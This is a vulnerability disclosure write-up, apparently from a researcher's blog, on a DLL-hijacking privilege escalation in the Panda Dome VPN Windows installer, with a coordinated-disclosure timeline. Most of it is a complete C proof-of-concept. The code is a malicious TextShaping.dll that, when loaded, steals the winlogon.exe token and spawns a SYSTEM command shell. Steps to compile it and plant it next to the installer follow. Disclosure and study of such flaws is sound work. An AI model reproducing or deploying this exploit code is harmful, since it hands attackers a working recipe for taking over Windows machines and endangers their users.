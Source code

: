 ```yaml
---
title : "Local privilege escalation in Panda Dome VPN for Windows Installer"
excerpt: "Local privilege escalation in Panda Dome VPN for Windows Installer"

categories:
    - "0-day"
tags:
    - [Panda Security, 0-day, CVE, EoP, Mitre, LPE]
---
```



## 0x01: Details

- Title: Local privilege escalation in Panda Dome VPN for Windows Installer
- CVE ID: None
- Vendor ID : None
- Advisory Published: 2023/07/05
- Advisory URL : [https://www.pandasecurity.com/en/support/card?id=100080](https://www.pandasecurity.com/en/support/card?id=100080)

## 0x02: Test Environment

Panda Dome Version : 21.01.00

OS : Windows 10 Pro 64-bit 21H2 (build 19044.1826)

## 0x03: Vulnerability details

Vulnerability that allows a local attacker to gain SYSTEM privileges by exploiting administrator privileges, and that enables the server thread to perform actions on behalf of the client, but within the limits of the client's security context.

## 0x04: Technical description

Many DLLs are loaded from the directory where the Panda Security VPN installer file PANDAVPN.exe is located. If these DLLs are not in the directory, DLLs are loaded from the `C:\Windows\SysWOW64` directory. Among these Dlls, `TextShaping.dll` is loaded, and this DLL load is done with Administrator privileges. So, by placing `TextShaping.dll` in the directory where the Panda Security VPN installer file is located, you can gain SYSTEM privileges by abusing Administrator privileges.

## 0x05: Proof-of-Concept (PoC)

```c
#include <stdio.h>
#include <windows.h>
#include <Psapi.h>
#include <Tlhelp32.h>
#include <sddl.h>

#pragma comment (lib,"advapi32.lib")

int exploit() {
	DWORD lpidProcess[2048], lpcbNeeded, cProcesses;
	EnumProcesses(lpidProcess, sizeof(lpidProcess), &lpcbNeeded);
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	PROCESSENTRY32 p32;
	p32.dwSize = sizeof(PROCESSENTRY32);

	int processWinlogonPid;

	if (Process32First(hSnapshot, &p32)) {
		do {
			if (wcscmp(p32.szExeFile, L"winlogon.exe") == 0) {
				printf("[+] Located winlogon.exe by process name (PID %d)\n", p32.th32ProcessID);
				processWinlogonPid = p32.th32ProcessID;
				break;
			}
		} while (Process32Next(hSnapshot, &p32));

		CloseHandle(hSnapshot);
	}

	LUID luid;
	HANDLE currentProc = OpenProcess(PROCESS_ALL_ACCESS, 0, GetCurrentProcessId());

	if (currentProc) {
		HANDLE TokenHandle = NULL;
		BOOL hProcessToken = OpenProcessToken(currentProc, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &TokenHandle);
		if (hProcessToken) {
			BOOL checkToken = LookupPrivilegeValue(NULL, L"SeDebugPrivilege", &luid);

			if (!checkToken) {
				printf("[+] Current process token already includes SeDebugPrivilege\n");
			}
			else {
				TOKEN_PRIVILEGES tokenPrivs;

				tokenPrivs.PrivilegeCount = 1;
				tokenPrivs.Privileges[0].Luid = luid;
				tokenPrivs.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

				BOOL adjustToken = AdjustTokenPrivileges(TokenHandle, FALSE, &tokenPrivs, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL);

				if (adjustToken != 0) {
					printf("[+] Added SeDebugPrivilege to the current process token\n");
				}
			}
			CloseHandle(TokenHandle);
		}
	}
	CloseHandle(currentProc);

	HANDLE hProcess = NULL;
	HANDLE TokenHandle = NULL;
	HANDLE NewToken = NULL;
	BOOL OpenToken;
	BOOL Impersonate;
	BOOL Duplicate;

	hProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, processWinlogonPid);

	if (!hProcess) {
		printf("[-] Failed to obtain a HANDLE to the target PID\n");
		return -1;
	}

	printf("[+] Obtained a HANDLE to the target PID\n");

	OpenToken = OpenProcessToken(hProcess, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &TokenHandle);

	if (!OpenToken) {
		printf("[-] Failed to obtain a HANDLE to the target TOKEN %d\n", GetLastError());
	}

	printf("[+] Obtained a HANDLE to the target TOKEN\n");

	Impersonate = ImpersonateLoggedOnUser(TokenHandle);

	if (!Impersonate) {
		printf("[-] Failed to impersonate the TOKEN's user\n");
		return -1;
	}

	printf("[+] Impersonated the TOKEN's user\n");

	Duplicate = DuplicateTokenEx(TokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &NewToken);

	if (!Duplicate) {
		printf("[-] Failed to duplicate the target TOKEN\n");
		return -1;
	}

	printf("[+] Duplicated the target TOKEN\n");

	BOOL NewProcess;

	STARTUPINFO lpStartupInfo = { 0 };
	PROCESS_INFORMATION lpProcessInformation = { 0 };

	lpStartupInfo.cb = sizeof(lpStartupInfo);

	NewProcess = CreateProcessWithTokenW(NewToken, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &lpStartupInfo, &lpProcessInformation);

	if (!NewProcess) {
		printf("[-] Failed to create a SYSTEM process\n");
		return -1;
	}

	printf("[+] Created a SYSTEM process\n");

	CloseHandle(NewToken);
	CloseHandle(hProcess);
	CloseHandle(TokenHandle);

	return 0;
}

BOOL APIENTRY DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
    switch (fdwReason) {
        case DLL_PROCESS_ATTACH: {
			exploit();
			exit(-1);
            break;
        }

        case DLL_THREAD_ATTACH: {
            break;
        }

        case DLL_THREAD_DETACH: {
            break;
        }

        case DLL_PROCESS_DETACH: {
            break;
        }
    }
    return TRUE;
}
```

1. Use Visual Studio 2019.
2. Compile the project in the DLL directory in x86 Release mode.
3. Rename the compiled dll to `TextShaping.dll` and place it in the same directory as PANDAVPN.exe.
4. Run `PANDAVPN.exe` to perform Panda Security VPN installation.

## 0x06: Affected Products

This vulnerability affects the following product:

- Panda Security VPN Version ≤ 15.14.8

## 0x07: Credit information

HeeChan Kim (@heegong123) of TeamH4C

## 0x08: TimeLine

- 2022/08/01 : First time contacted via Panda Security Email(secure@pandasecurity.com).
- 2022/08/10 : I recevied a file which is patched via Panda Security.
- 2023/07/05 : The vulnerability has been patched, and I have been notified that the vulnerability has been disclosed.
- 2023/07/09 : Request a CVE id via MITRE.

## 0x09: Reference

- [https://www.pandasecurity.com/en/homeusers/vpn/](https://www.pandasecurity.com/en/homeusers/vpn/)
- [https://www.pandasecurity.com/en/support/card?id=100080](https://www.pandasecurity.com/en/support/card?id=100080)

